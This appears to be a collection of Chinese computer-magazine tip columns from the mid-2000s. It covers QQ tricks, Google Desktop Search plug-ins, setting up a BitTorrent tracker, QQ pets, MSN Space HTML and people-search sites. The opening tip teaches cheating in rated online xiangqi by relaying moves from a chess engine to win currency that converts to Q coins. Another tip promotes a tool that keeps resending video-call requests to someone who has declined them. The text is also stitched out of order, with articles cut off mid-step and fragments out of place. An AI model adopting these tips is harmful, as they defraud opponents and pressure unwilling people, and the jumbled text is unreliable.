跟Q小妹交往久了，Q猪发现自己的女朋友花“钱”好厉害，没事就喜欢买点QQ秀什么的。时间长了，Q猪常遭遇囊中羞涩的尴尬。于是决定想一个比较好的“赚钱养家”的方法，经过深思熟虑，他终于发现了一招“变态”的……

第一步：首先到http://nj.onlinedown.net/down/ppa.zip下载一个单机版本的中国象棋。接下来登录QQ游戏大厅，登录后依次进入“棋类游戏→中国象棋→游戏币专区→游戏币超级场”，随便建立一桌游戏等人。
第二步：游戏开始后，也请运行单机版的中国象棋，选择“系统设置→专业水平”。对方走出第一步后，我们按照对方同样的走法与单机版的中国象棋电脑方对棋，并将电脑的走法照搬到QQ游戏中去。由于单机版的电脑是专业水平，一般水平的对手几乎不可能赢你。该游戏每赢一场为2000游戏币，按照这样计算，半天工夫就能赢得10多个Q币。

**小提示**
★有了游戏币，可以在游戏大厅的主界面“游戏币→游戏币换Q币”中换取Q币。
★为了在下棋的时候更方便对应走法，我们可以在对方走出第一步后，在单机版的中国象棋中先运行“系统设置→交换先后手”。

### “执著”——女孩是需要“哄”的

| 属性 | 值 |
|------|-----|
| 软件版本 | 2.0 |
| 软件大小 | 29KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9X/ME/2000/XP |
| 下载地址 | http://www2.skycn.com/soft/1184.html |

性格温柔的Q小妹，也总有生气的时候。Q猪因为贪睡，耽误了约会，遭到Q小妹的“封杀”，不接电话不聊天。这时候，最好的方法莫过于借助摄像头让她看看我诚恳的表情。可是她不接受视频的请求，这可怎么办？我自有办法！下载一个叫做“QQ视频非接不可”的软件，安装后打开聊天窗口，按下F10键，就可以自动向对方发出视频聊天的请求。如果对方取消了请求，就会自动再发一次请求，如果再次取消，就会再次请求……# 长脚的Google爬上了电脑桌

前一段Google发布了它的桌面搜索工具——Google Desktop Search（以下简称GDS），笔者冲着Google的名号以及它提供的新奇功能把它请到了自己的硬盘。用了一段时间后，愈发喜爱这个可以搜索本地硬盘中的文档、网页的工具。不过时间久了，总觉得还可以让它更强大的，于是笔者经过四方打听，终于开始了对它的“调教”之旅。

小提示
“QQ视频非接不可”这个软件适合对于比较熟悉的人使用，如果你对一个新认识的人不厌其烦地发出邀请，相信大多数人都会感到反感的。

# 一些可以逗MM开心的Q技

有了“源源不断”的“经济来源”，Q猪终于和Q小妹过上了幸福的QQ网恋生活。当然，在玩QQ的时候，Q猪也总结了一些讨Q小妹欢心的小伎俩，这里向大家公布几个，希望对大家有用。

## 招法一：提前享受“QQ宠物炫”

QQ宠物炫是腾讯公司即将推出的宠物领养里面的的功能，不过目前多数人还不能享受这个功能。当然，现在已经有人帮我们制作好了QQ宠物炫表情了，我们可以到 http://dl.pconline.com.cn/html/1/1/dlid=13531&dltypeid=1&pn=0&linkPage=1.html 下载，这些动态表情都是憨态可掬的QQ仔表演出来的，非常适合与MM聊天的时候使用。

## 招法二：解决视频聊天时资源占用过高的问题

不知道大家有没有发现，QQ视频时系统资源的占用非常之高，我们可以到 http://www.newhua.com/cfan/200512/VqqAllInOne.rar 下载一个补丁，将其解压缩后覆盖QQ安装目录中的 VqqAllInOne.dll 文件即可。不过覆盖后有个副作用，那就是不能再享受QQ提供的超级语音功能。

## 招法三：有趣的统计数字

根据一些“无聊”人士的统计：单台机器可以同时开启的QQ数量为10个；在上网高峰时段，每台机器可能最多允许开启1~2个QQ号码；目前还能正常登录的QQ最老版本为QQ2000C 0510，该版本还没有群功能；QQ最大支持好友数量大约为550人，而MSN Messenger支持300人；QQ聊天记录文件夹最大容量不得超过1024MB；如果想让自己的QQ等级为最高14个“太阳”，一天24小时在线大概需要29年，一天在线16小时大概要45年，一天在线8小时大概需要90年……（以上数字不保证准确性^_^）。

（北京 Q猪）

# Round 1：让GDS支持的文件类型更多

调教目的：GDS本身支持搜索Outlook/OE邮件，Word、Excel、PowerPoint、TXT文档，IE缓存，AOL聊天记录等文件，不过笔者还嫌不够。

GDSPlus是一款可以让GDS支持任何文本文件进行内容搜索的增强工具，使用它之后，你可以搜索诸如XML、LOG、VB、RTF、BAT等格式的文件内容。除此之外，你也可以对RAR、WAV、ZIP等其他任何文件类型进行文件名搜索。

-   第一步：首先从 http://www.trivex.net/gdsplus101.zip 下载GDSPlus的安装压缩包，接下来退出正在运行的GDS，将其卸载后再重新安装一遍。
-   第二步：打开任务管理器，确保 GoogleDesktopCrawl.exe 和 GoogleDesktopIndex.exe 两个进程没有运行，否则结束掉它们。将GDSPlus压缩包解压缩到GDS的安装目录（通常是 C:\Program Files\Google\Google Desktop Search）并覆盖同名文件。
-   第三步：用记事本打开 C:\Program Files\Google\Google Desktop Search 目录下的 GDSPlus.conf 文件，在其中添加你想要的任何文件类型，比如HTML，那么就新起一行，输入 `AddNewExtension "html", "0"`（英文半角输入，不带外面的引号），最后再运行GDS即可。

# Round 2：让GDS支持远程搜索

调教目的：笔者经常会在单位的服务器上寻找某个文档，如果每次都跑到这台机器上搜寻，实在是太麻烦了。或者我在公司的时候想搜索一下家里计算机中的某个文本。如果让GDS支持搜索远程计算机上的文件，那简直太棒了！

DNKA就是这么一款非常神奇的工具，它能在你安装它的计算机上建立一个索引服务器，并让指定IP或者IP段内的计算机搜索这台计算机上的文件。笔者是如此来实现自己想要的功能的：

-   第一步：首先到 http://www.dnka.com/downloads/DNKA-0.30.exe 下载安装DNKA 0.30版，安装完毕后DNKA如果检测到GDS正在运行，它会自动重启它并建立自己的文件索引。
-   第二步：默认情况下，只有本机才能搜索到安装了DNKA的电脑中的文件，要让其他电脑也能搜索，必须做如下设置：在开始菜单中运行“DNKA → DNKA Server Options”菜单打开DNKA的设置界面，单击“Hosts”链接，这时可以看到“Allow list”中只有一个 127.0.0.1，这是本机的地址。如果想IP地址为 192.168.0.2 的计算机能够对本机进行搜索，就在“Add new hosts”中输入“192.168.0.2”并单击“Submit”即可（见图1）。



小提示
可以添加任何IP地址或IP地址段，比如“211.135.*”代表IP地址以“211.135”开头的所有IP，如果嫌麻烦，就直接填写“*”，这表示所有Internet上的电脑都能搜索你的电脑，不过这很不安全，请三思！

-   第三步：这时就可以在允许你已经添加到“Allow list”的计算机上访问地址—— http://你的IP地址:4664 来搜索你的计算机了。不管你是在天涯海角，只要你所用计算机的IP地址被设置到“Allow list”，都可以！

小提示
让DNKA更安全一些
肯定很多朋友会对这个工具提供的功能不寒而栗，不过可以通过设置来让它更安全一些。首先在“Hosts”链接页中设置“Deny host”（拒绝某IP或IP段），接下来在“Users”页中单击“Disable Anonymous Access”（拒绝匿名连接），并添加一个用户名和密码，这样对方的IP即使在你的“Allow list”中，也必须输入用户名和密码方可搜索你的电脑；此外，还可以在“Misc Options”页更改“Server port number”（服务器端口号，默认为4664）来增强安全性，只只不过在别人搜索计算机的时候访问的地址会变成： http://你的IP地址:修改后的端口号 。

# Round 3：让GDS支持搜索Firefox的缓存

调教目的：笔者使用Firefox浏览器，而GDS默认不支持对Firefox存储在本地的网页内容进行搜索，这让我一筹莫展，难道要使用GDS，只能转用IE？

要实现这一功能，方法很简单，只需要安装一个名为Slogger的Firefox插件即可；它的下载地址为： http://www.kenschutte.com/firefoxext/slogger_0.5.0.xpi 。下载完毕后，将该文件的后缀名由“.zip”修改为“.xpi”。安装完成后，在Firefox中选择“查看→工具栏→定制”菜单，在打开的窗口中将Slogger图标拖曳到Firefox的工具栏中。最后，再单击“Slogger”按钮让其变成红色，之后我们就可以用GDS来搜索Firefox中的浏览页面内容了。

小提示
Slogger的安装可以用Firefox直接打开该xpi插件，也可以直接将它拖曳到Firefox的窗口中，该插件的安装需要你重新启动Firefox。

# Round 4：光盘管理器

调教目的：刻录机的普及，使得很多朋友有了很多自己收藏的CD、DVD光盘。然而从这么多光盘中搜索要找的东西就是一件不容易的事情了，打开光盘包，将一张张光盘放入电脑查找，既浪费时间又毁光驱。说到这里，很多朋友想到了流行已久的“光盘书架”一类的软件，它们替你收集整理光盘中的文件列表。既然GDS这么强大，是否能搜索光盘呢？

默认情况下，GDS是不能搜索光盘和其他可移动媒体的，我们可以借助Spindle Search这个插件来帮助GDS完成这个工作。

-   Spindle Search小档案
    - 软件版本：1.2.10
    - 软件大小：100KB
    - 软件性质：免费软件
    - 适用平台：Windows XP（必须安装.NET Framework 1.1）
    - 下载地址： http://desktop.google.com/plugins/cddvd.html

启动Spindle Search之后，会出现图2中的向导。插入光盘，按“Next”，软件就会快速搜索光盘中的文件，并记录在GDS的缓存中，光盘就可以束之高阁了。今后你使用GDS搜索文件，光盘中的内容也自动被列为搜索范围了！很方便吧，再也不用特意安装“光盘书架”之类的光盘管理软件了！



# Round 5：几个不得不掌握的GDS酷技

调教目的：真正成为一个GDS高手，将GDS玩弄于股掌之间。

## 1. 给GDS的索引文件搬家

GDS使用时间越长则其产生的索引文件就越大，而GDS的索引文件又是存放在系统分区中（默认在 C:\Documents and Settings\USERNAME\Local Settings\Application Data\Google\Google Desktop Search ，这是一个隐藏文件夹）的，久而久之，本来空间就紧张的系统盘已经被塞满了。如何让GDS的索引文件存放在其他硬盘分区呢？

首先退出GDS，将该 Google Desktop Search 文件夹拷贝到其他硬盘分区，如 D:\Google Desktop Search 。接下来运行“Regedit”命令打开注册表编辑器，定位到 `HKEY_CURRENT_USER\Software\Google\Google Desktop` ，将“data_dir”一项的值修改为“D:\Google Desktop Search”即可。最后重新启动GDS，目的达成。

## 2. 让GDS搜索磁盘映射上的文件

默认情况下GDS只能搜索本地的文件，连映射磁盘都不支持，下面的技巧能改变这一尴尬。

第一步：打开文本编辑软件，输入以下字

# 1分钟！快速搭建BT发布站点

每天都在BT下载，可曾渴望拥有自己的BT种子发布站点？是否期待着五湖四海的朋友到你的站点下载种子，通过BT共享免费资源呢？更有意思的是，当你的BT发布站点出名后，就能结合Google付费广告，实现足不出户赚取美金的梦想呢！今天，就由我为大家推荐一款简单方便的BT种子发布页制作工具，通过本文可以利用BNBT发布页（比特精灵强化版）搭建自己的BT发布站点。

## BNBT发布页（比特精灵强化版）小档案

-   软件版本：免费软件
-   软件大小：922KB
-   运行平台：Windows 9x/ME/2000/XP
-   下载地址： http://www.bytelinker.com/download/ EasyTracker.zip



小提示：几乎所有配置文件都是通过修改 bnbt.cfg 文件来实现的，你可以参阅软件包中的‘使用说明.txt’进行详细配置。由于篇幅有限，这里只介绍几个必须修改的地方。

第四步：进入 winnt.system.service 目录后运行 BNBTSS-Install.bat 文件把程序安装成服务（见图2）。



## BT发布初体验



这里列出的 10.91.30.45 是内网地址，如果其他访问的用户也在内网中，使用这个地址就可以。如果你的电脑连在公网中，使用公网IP，例如ADSL用户的 61.149.2.52 ，则其他Internet用户就需要使用 61.149.2.52 来访问。

小提示：在软件目录中有一个 restart.bat 文件，我们可以通过运行这个文件实现软件的重启，主要用于修改 bnbt.cfg 之后，使新参数生效。另外， winnt.system.service 目录中还有名为 BNBTSS-Stop.bat（使软件停止服务）和 BNBTSS-Uninstall.bat（卸载该服务）两个工具。

## 实例：给你的BT发布页加个域名

IP地址不容易记忆，另外很多用户的IP地址也不是固定的，这样其他人访问起来很不方便。我们可以借助花生壳来帮忙。简单地讲，花生壳的作用就是固化动态IP。只要在你的电脑上运行花生壳软件，它就会自动连接到域名服务器并与某个固定域名挂钩，这样当别人访问该域名时，就可以转向你的电脑。当我们使用自己的电脑做服务器（包括FTP服务器、Web服务器等）时，花生壳都是必不可少的一个工具。要使用花生壳，需要到 www.oray.net 注册一个新用户，然后申请免费域名，申请的域名即刻生效并投入使用。这样，只要今后你的电脑开着机，再也不用为繁琐的IP发愁啦！

## 配置管理界面

第一步：刚开始我们的站点只有一个用户可以发布种子信息，他就是管理员账户，默认情况用户名为 admin ，密码为 admin888 。点击主页的‘登录’按钮进入管理界面。登录后我们看到管理员有五个按钮，分别为‘返回发布页’、‘注销ADMIN’、‘上传文件’、‘用户管理’和‘系统管理’。我们用到最多的是‘用户管理’和‘系统管理’。

小提示：由于很多人都知道默认用户名是 admin ，所以笔者建议在建立BT种子发布页面后马上申请一个用户，然后通过 admin 账户赋予这个用户最高的管理员权限，最后删除掉默认的 admin 账户，即可最大限度地提高安全性。

第二步：通过‘用户管理’我们可以设置所有用户的权限，还可以在适当时候修改密码和注册邮箱地址等信息。通过‘系统管理’我们可以监视服务器的运行状态，在必要时可以关闭服务器的tracker。



小提示：为种子提供的专门讨论的地址不是由本软件提供的，上传者可以选择任何论坛或任何URL。第四步：上传完毕后就可以开始‘做种’了，其他用户访问发布页时就会看到图5的界面了，可以直接下载任何种子。



## 使用技巧一箩筐

该软件安装和使用非常简单，不用任何网页发布工具就能制作自己的BT发布页了，什么IIS，Apache全部抛在脑后，没有了复杂的配置和操作，可以让用户将更多的精力放在种子的制作与发布上。在实际使用中笔者还总结出了几个小技巧，和大家一起分享。

### 技巧1：为了保证种子发布的安全性，防止有涉及政治和色情的词语出现，需要对种子名进行过滤。

实现方法：在软件目录中有一个 filters.txt 的文件，通过它可以将非法关键字过滤掉。使用记事本打开这个文件将过滤关键字添加进去即可，每个关键字单独占一行。

### 技巧2：打造更自主的BT发布页

默认情况下BT发布页不是特别美观，而且有很多比特精灵的广告，我们要将广告删除，并制作自己的Logo。实现方法：编辑软件目录下的 files→HTML 目录里的 footer.html 与 header.html 文件，制作自己的HTML文件并起名为 footer 和 header 后就可以打造自己的BT发布页了。

## 总结：BNBT发布页是在国外BNBT版本基础上发展而来的，由比特精灵进行了汉化与升级，很多设置更加符合国内用户使用，功能上也增加了很多实用功能，特别是在搜索BT种子时可以采用中文关键字，为下载提供了极大便利。现在你是否动心了呢？下载软件，加上一分钟，就能搭建自己的BT发布站点啦！

```
HKEY_CURRENT_USER\Software\Google\Google Desktop\HistoricalCapture\Crawler
```

> IC:<tab>H:<tab>M:<tab>（注意：<tab>表示按下tab键，而非输入该字符串），将其复制到剪贴板。

# 亲亲我的Q宠宝贝

憨厚的神态、幽默的语言、矫健的动作；原本只会乖乖呆在桌面右下角的小企鹅，开始活跃在整个桌面。时而酣然入睡，时而蹒跚前行，时而左顾右盼，一只活灵活现的小精灵，让笔者禁不住开怀大笑。这是QQ宠物给笔者的第一体验。

很有可能成为“武力之星”，不过整天“搬砖头”还是太枯燥了，让他去做个白领，增加自己的魅力吧！

正式发布前，QQ宠物漫长的内测期，吊足了Q宠迷们的胃口，更为QQ宠物添加了几分神秘。QQ宠物正式发布后，笔者有幸第一时间亲身体验。令我惊诧的是，QQ宠物公测版本相比内测版本而言，有了彻底优化，很多内测期间网友提出的建议和想法都在公测版本中得以实现，这也不难理解内测期的漫长。

一天辛苦打工下来，怎么也要逛逛街娱乐一下，主人就可以带领Q宠宝贝去购物街溜达一圈，这里有丰富的食品、日用品等供选择，牛肉干可是很好吃的哦！日用品怎么也要来点香水吧，这些物品都可以增加小宝贝的个性属性。

主人可不能让Q宠宝贝成为文盲，成长过程中的学习是必不可少的，主人可以带领宠物去宠物学校学习各种高级技能，宠物学校目前已经开设了“宠物炫课堂”，还分一年级、二年级、三年级、四年级，还有更高级的“爱情提高班”，你的小宝贝只有到达一定的等级后，才能参加相应的班级进行学习。



QQ宠物村场景

# 我要健康地成长——QQ宠物生命篇

QQ宠物是目前国内惟一桌面宠物休闲养成游戏，整个游戏突出了宠物的养成体验和宠物在桌面的表现，宠物幽默的表现让Q宠迷们为他取了一个形象的名字“Q宠宝贝”。QQ宠物是个活生生的小宝贝，小宝贝在线的时候，会相应有在线时长和成长值的增加，同时会消耗饥饿值、卫生值等，主人需要根据Q宠宝贝当前的状态，为他购买物品，给他洗澡等。如果宠得不够，小宝贝还会生病，主人就要带领小宝贝到宠物医院去看病，并根据医生开的处方单来购买药品，让小宝贝恢复健康（见图）。

# 我要打工上学！——QQ宠物生活篇

Q宠宝贝的生活很丰富多彩，小宝贝可以打工挣元宝，可以用挣来的元宝逛街购物，还可以学习高级技能，当然娱乐也是生活很重要的部分。主人可以安排Q宠宝贝打工，有很多工种供选择哦。打工可以获取元宝的同时，还可以增加个性属性，如果你让你的小宝贝整天“搬砖头”，那你的小宝贝就很有可能成为“武力之星”，不过整天“搬砖头”还是太枯燥了，让他去做个白领，增加自己的魅力吧！

这里要特别提醒Q宠迷们，宠物的成长速度是由宠物的当前心情决定的，如果你的小宝贝“很高兴”，他就会每小时增长2个成长值；如果是“一般”那就只能增加1成长值哦；如果生病了，心情郁闷，那就更少，甚至有可能停止增长哦。

每个Q宠宝贝都有寿命和年龄，年龄就是Q宠宝贝在线时长的总和，寿命就是最高能在线时长总和，在固定的寿命情况下，每个小时增加2个成长值；

# 好想谈恋爱——QQ宠物结婚篇

与内测相比，Q宠宝贝间的结婚是最大的亮点。Q宠宝贝成长到一定的等级后，主人就要开始为小宝贝寻找意中人了。目标意中人必须是异性，而且还必须是同一代哦，当然主人还要尽量为小宝贝找到一个“门当户对”的好伴侣吧，就是要找到一个个性属性都相当的。这里还要提醒Q宠迷们，Q宠宝贝结婚后生的宠物蛋是有“天赋值”的，如果你不想你的下一代的天赋值太低的话，那就一定要找一个条件优秀的对象。

Q宠宝贝结婚后，必须在一起一定的时间，才会生下宠物蛋，宠物蛋可以留着自己喂养，也可以赠送给好友。当然，如果你觉得想重新单身，你还可以离婚，解除婚姻关系是必须得到双方认可。

这么可爱的小宝贝，谁不想拥有一只，谁不想成为Q宠一族，快来 pet.qq.com 领养你的Q宠宝贝吧！2005，我宠我的Q宠物！

# 我的MSN Space 就是比你酷

微软（Microsoft）网页日志（blog）“MSN Space”正式版本推出已经有些时日，由于功能单一，许多网友通过不同方法为其添加功能。在这里首先要感谢名为Scott的美国朋友，他开发的工具使我们可以通过编辑日志代码为日志增加特色功能。下来就为大家一一介绍。

```
blur(add=1, direction=40, strength=10); FONT-SIZE: 30px; FONT-WEIGHT: bolder; WIDTH: 200px">日志文字</FONT>
竖排文字（见图2）:<DIV style="FONT-SIZE: 9pt; WRITING-MODE: tb-rl; TEXT-ALIGN: left">
<p>日志文字</P></DIV>
Writing-Mode 参数值为tb代表文字排列从上到下，rl代表从右到左通过使用以上代码。
```

首先，选择IE浏览器“查看→工具栏”，将“链接（L）”打上勾。然后在地址栏中输入 http://cfan.tc169.cn 回车，用鼠标右击“Edit It”链接，选择“添加到收藏夹”，加入“链接（L）”文件夹中。这时你会在“链接（L）”工具栏内看到一个“Edit It”的链接图标。



接下来就是进入你的MSN Space中；添加一篇新日志。在输入内容前，直接点击“链接”中的“Edit It”，会发现输入框中多了一些东西。勾选内容框中底部的“用HTML创建您的网页。—直接编辑HTML格式命令”的选项，这下对于熟悉HTML语言的朋友大概是没有问题了。对于不熟悉的朋友我为大家准备了相关代码，你只需将其中汉字的内容换成所需要的就行了。

## 实例1：背景色随便改

```
日志前景色会随着不同的模版类型而改变，但用户无法自定义背景色，我们来修改一下，将以下内容复制到内容框中：
<div style="width:100%;height:100%;background-color:#990000;">日志内容</p></div>
只需要将 #990000 改成你所需要的色值即可。至于代码对应的颜色，在Photoshop等图像软件中试验即可。
```

## 实例2：立体日志边框

```
<div STYLE="border-style:solid;border-width:5pt; border-color:#xxxxxx">日志内容</div>
Border-left-style:solid (double, groove, ridge, inset, outset)定制边框样式, Solid 简单线形边框 Double 简单双线边框 Groove 沟线立体效果边框 Ridge 脊线立体效果边框 Inset 嵌入线立体效果边框 Outset 浮出线立体效果边框
```

## 实例3：我家的日志会唱歌！

添加音乐：<P></P>
添加视频：<P></P>
Loop控制循环播放的次数，infinite时是无限循环，0时是不循环，循环次数只需键入相应数字即可。目前流媒体文件只支持ASF、WMV，或MOV，不支持RM。

## 实例4：文字特效妙妙妙！（见图1）

```
阴影:<FONT style="COLOR: #xxxxxx; FILTER: shadow(color=black); FONT-FAMILY: 宋体; FONT-SIZE: 20pt; WIDTH: 100%"><B>日志内容</B></FONT>
发光:<FONT style="COLOR: #xxxxxx; FILTER: glow(color=black); FONT-FAMILY: 华文彩云; FONT-SIZE: 20pt; WIDTH: 100%"><B>日志文字</B></FONT>
模糊:<FONT color=#xxxxxx style="FILTER:
```



## 实例5：滚动文本框

这可以帮我们解决大幅篇日志占据页面的情况。代码请到 http://www.newhua.com/cfan/200513/roll.rar 下载。
（小小牛）

# 免费刻章，要不要？

人在网上飘，怎能不能没签字？看见别人在论坛里的签字个性十足，很是羡慕，可是要自己做一个却没有信心。现在，既不需PhotoShop来处理，又不用去印章阴阳篆刻，就可让你免费获得一款自己的个性印章，不信，就来一试。用IE打开网址： http://caishu.sina.com.cn/webCZCC.htm ，然后输入刻章内容，如“电脑爱好者”，再点击“先看一下”按钮，在左侧的彩信预览中就能看到你的印章了。还等什么，右击出现的印章图片，选择“图片另存为”就可将你的印章保存下来了，另外还有“题词赠诗、墨海淘宝”等各种好玩好用的功能提供给你，操作方法都非常简单，输入内容看一下便可，如果需要还可将这些内容发送到你的手机上呢！
（呆瓜）



## **Excel: 我也是抓站大师！**

在浏览网页时，你一定会不时看到一些需要保存的数据信息。这些信息或许是一个完整的表格，或许是一段文字，如果要保存这类信息，我们常用的方法就是拖动鼠标，选中这些信息，然后用 Ctrl + C 组合键复制文字，然后再保存到 Word、Excel 当中去。这样的步骤算不上麻烦，但如果要求你在一个内容丰富的大网页（比如新浪、网易、Sohu 首页）中频繁地复制、粘贴，一定会让你感到疲劳和浪费时间。有什么好办法呢？用“Ctrl+A”全选后复制所有文字？粘贴后你会发现麻烦更大，因为所有文字都堆在一起了！找专门的抓站软件吗？太小题大做了吧！

### 实例: 抓取新浪首页不同位置内容

第一步: 打开 IE，访问新浪首页 http://www.sina.com.cn/
第二步: 在网页左侧或右侧的空白处点击鼠标右键，在菜单中选择“导出到 Microsoft Office Excel”。注意，不要在文字链接之间的空白处点右键，而是应该在完全没有网页内容的地方点右键。
第三步: 这时 Excel 会启动，并出现一个“新建 Web 查询”的窗口。稍等片刻，等待这个窗口中显示出了完整网页，左下角会出现“完毕”字样。注意观察网页，你会发现网页被分割成了很多小的表格，每个表格的左上角有一个小的箭头标志。
第四步: 双击窗口最上方标题栏，最大化窗口。依次找到要收藏的内容，然后按下该位置左上角的箭头，使它变成绿色的对勾。然后按下下方的“导入”按钮。
第五步: 在弹出窗口中选择放置位置，然后按下“确定”按钮，文字、表格信息就可以自动导入 Excel 了。字体格式、颜色自动处理为 Excel 默认的样式，表格也会被放到适当的单元格中（见图）。这样，就有效避免了直接复制粘贴网页造成一些无法识别的格式、链接信息进入网页，同时提高了导入速度。

### 你知道吗？

如何不将网页格式带入 Office 文档中？
当你在浏览器中复制一段内容，然后粘贴到 Word、Excel 中，会将一些网页格式直接照搬进来，这可能不是我们所希望的，因为它会增大文件体积，也不利于加工整理。
其实，你只要不用“Ctrl+V”来粘贴，而是选择 Word、Excel 中的“编辑→选择性粘贴→文本”来进行粘贴就可以了。
(LX)



## **把失去的缘分搜回来**

前不久，傻蛋到外地旅游，飞机上偶遇一个 PLMM，两人一见如故，大有“相见恨晚”的感觉。经过两个小时的飞行，两人似乎已经相处得非常融洽。不过，这个粗心的傻蛋偏偏在分别的时候忘记要电话，也没抄下人家的 QQ 号码……等醒悟过来后，傻蛋几乎气得晕了过去：“我只知道她叫傻姑，家在桃花岛，其他一概不知……茫茫人海，要再次相遇，简直是痴人说梦！”受了刺激的傻蛋从此变得寡言少语，大伙都说他害了相思病，直到有一天，事情有了转机……

### 机会就在转角处——搜狗人物搜索站点登场

一位经常行走江湖的朋友告诉傻蛋：“你可以去搜狗碰碰运气，该站点有专门的‘人物搜索’(http://people.sogou.com/index.html)功能。”提到搜索引擎，傻蛋当然知道，不过他只用过 Google 和百度。
搜狗人物搜索是搜狗的特色功能。既然是“人物搜索”，自然就是用来“找人”的。那么我们用它来找哪些人最合适呢？
- 名人：如果查找的对象是一个名人，那么搜狗会在搜狐人物频道(http://people.business.sohu.com/person/pnews.html)中进行搜索，并给出结果页面。从实际试用效果来看，不管是政治、经济、外交、娱乐等多个领域的名人，都能在搜狗中找到。
- 年轻网民：能搜到名人的资料信息，一点都不稀奇，Google 也能办到。搜索“年轻网民”的信息资料，这才是搜狗人物搜索的特色。实际上它是通过搜索 Chinaren 和搜狐校友录(http://alumni.sohu.com/)中登记的资料来达到目的的，而对于“年轻网民”来说，多数都在 Chinaren 校友录中拥有同学录并登记过。因此，通过它搜索到的结果具有很强的可信度。

### 小提示

除了搜狗提供人物搜索功能外，其他还有一些站点有类似功能：
- 新浪查博士：主要提供名人的搜索，对于在名人库资料中没有找到相关结果的，转为新浪的搜索引擎中搜索，地址为 http://cha.sina.com.cn/tools/people/。
- 高搜网：主要提供名人搜索，其人物库相对比较匮乏，很多人在这里查找不到，地址为 http://www.gaoso.com。
- LYCOS People：功能非常强大，该搜索引擎会根据关键字扫描页面的代码，对结果进行最佳匹配。支持人物名、邮箱、所在地区，甚至电话号码等搜索条件，地址为 http://www.lycos.com/tab=people。

### 缘来是你——用人物搜索找人

了解了人物搜索站点的来龙去脉后，傻蛋有些迫不及待了，马上打开搜狗人物搜索站点 http://people.sogou.com/index.html，心想：只要 PLMM 的校友录在 Chinaren，那我就肯定能找得到她了。
输入关键字，点击“搜索人物”按钮，结果让傻蛋傻了眼：搜索结果太多了，怎么地球上这么多叫“傻姑”的女孩子？！总不能一个个去问吧？这跟直接到桃花岛找她没什么区别，如何缩小“包围圈”呢？
第一步：既然知道傻姑来自桃花岛，那就到搜索结果页面的左侧“按地区”栏中找到浙江省（桃花岛在浙江），点击进入后就可以看到该省中名叫“傻姑”的所有结果了。

### 小提示

在页面左侧“最近浏览历史”栏中可以看到我们访问过的所有人员记录，想再次访问则直接单击人名即可，勾选某人名后单击“删除”可以清除该记录。
第二步：缩小结果范围后，我们可以看到每个结果都由学校名和班级名组成，如果他加入了多个校友录班级，则将显示所有加入的班级。点击任意一个链接即可进入对方所在的班级了。
傻蛋在查找来自“浙江”名叫“傻姑”的 PLMM 时，搜索结果只有几个，接下来问题就好解决了，只需进入这几个班级进行询问即可。说到这里，故事终于有了完美的结局：傻姑也在找傻蛋，只不过她不知道用“人物搜索”这个妙招，找也只能消极地找了。
如果你有失散多年的老友，不妨也来试试人物搜索吧，或许你会看到奇迹的发生……
（四川 逍遥小小）

## **“大块头”要有“大智慧”——玩转网络硬盘和大容量邮箱**

网络 U 盘渐渐盛行，Gmail 的诞生又带来了一股大容量邮箱旋风。钱包鼓了，吃饭的时候却不知道该吃什么好，到底今天吃粤菜还是川菜，或者西餐？同样，网络 U 盘和大容量邮箱这样的好东西多了，问题也随之来了——两者之间你该做何选择？什么样的情况下该用哪家网站提供的相关服务呢？

### 终极辩论：网络硬盘 VS. 大容量邮箱

有人说大容量邮箱是网络硬盘的终结者，有人说大容量邮箱不过是邮件服务商玩的数字游戏，看来各有各的说法。为了让大家心里有数，我们先来进行一个简短的辩论赛吧！
正方：大容量邮箱必然终结网络硬盘
反方：大容量邮箱是过眼云烟而已
主持人：为了尽可能地直切要害，我们直接请正方和反方阐述他们支持大容量邮箱或网络硬盘的理由，也就是两者的优势所在。
正方：
- 大容量邮箱可以方便地与好友共享文件，对方接收也很简单，不需多余设置。而网络硬盘如果不事先告知对方，他根本不知道如何获取你共享的文件，而且操作也繁琐。此外，网络硬盘常常会对某个文件设置“存活周期”，一旦超过这个时间，服务器将删除你上传的文件，而邮箱就不存在这个问题。
- 目前大容量邮箱普遍超过 1GB，有的甚至 2GB、10GB，与多数网络硬盘仅几十或者几百兆空间相比，更具容量优势。
- 大容量邮箱多为大网站提供，如 Gmail、雅虎邮箱、126.com 等，在服务上有保障，不用担心哪天自己存放的文件被“血洗”了；而提供网络硬盘的网站多不是特别有名气的站点。

反方：
- 大容量邮箱虽然容量出色，但我们真正用了多少呢？它的瓶颈在于允许使用的附件容量太小了，一般最多不超过 30MB，而且即便你的邮箱附件容量可以很大，还得考虑是不是会撑爆别人的邮箱。反观网络硬盘，多数都不限制文件大小，我们可以上传整部电影或者大型软件。
- 上传到邮箱的文件只能自己用用，没法提供给别人下载，除非你把密码告诉别人。
- 网络硬盘操作简单，而且可以上传文件夹，比起邮箱用附件的形式来分享文件，网络硬盘管理起来要轻松得多。
主持人：把正反双方对大容量邮箱和网络硬盘的讨论综合起来，我们可以看出，实际上两者之间的关系还是“粤菜和川菜”的关系，没有优与劣，只有适合与不适合。大家可以按需选择，比如，对小文件可以优先考虑邮箱，对短期内大文件分享，则可以优先考虑网络硬盘。不过，如果能够将两者结合起来，扬长补短，效果岂不更好？

### 特别的选择给特别的你——大容量邮箱

## **量邮箱和网络硬盘“奥斯卡”**

下面笔者根据不同的需求为目前流行的大容量邮箱和网络硬盘一一颁发“奥斯卡”金奖：

1. 最大空间奖: FilesBak.Com
获奖理由: 该站点(http://www.filesbak.com)提供单个文件不限大小上传，且支持网通、电信、铁通三种网络类型，你可以根据自己的网络情况选择最快速度的服务器上传文件。上传文件之后可以获得一个提取码，要提取文件只需要输入提取码可以获得文件下载的真实地址，根据该地址即可使用FlashGet等软件进行下载，支持断点续传。
缺点点拨: 文件只在服务器上保留20天，超过时间自动删除。

本奖项提名名单:
- 无限存: http://www.flashsave.com，对免费用户提供10GB存储空间，对单个文件大小无特别限制，永久保存文件，每个月最多下载1GB文件。可以支持跟其他“无限存”用户共享文件，可以在线播放媒体文件，提供blog、相册等附加功能。
- SteamLoaD: http://www.streamload.com/，对免费用户提供10GB存储空间，每月只能下载100MB数据，单个上传文件最大不超过100MB。
- K65: http://www.k65.net，对免费用户提供无限量的存储空间和无限量邮箱，单个文件大小不作限制，邮件最大附件大小不作限制，文件保存期限为30天，超过该期限的文件会被自动删除。

2. 最快速度奖: 中国活动通信
获奖理由: 该站点(http://www.mofile.com)文件上传和下载速度很快，为免费用户提供32MB的空间用于长期保存文件，512MB空间保存3天文件，上传、下载文件的大小都无特别限制。可以共享给任何人，通过16位提取码即可提取文件。
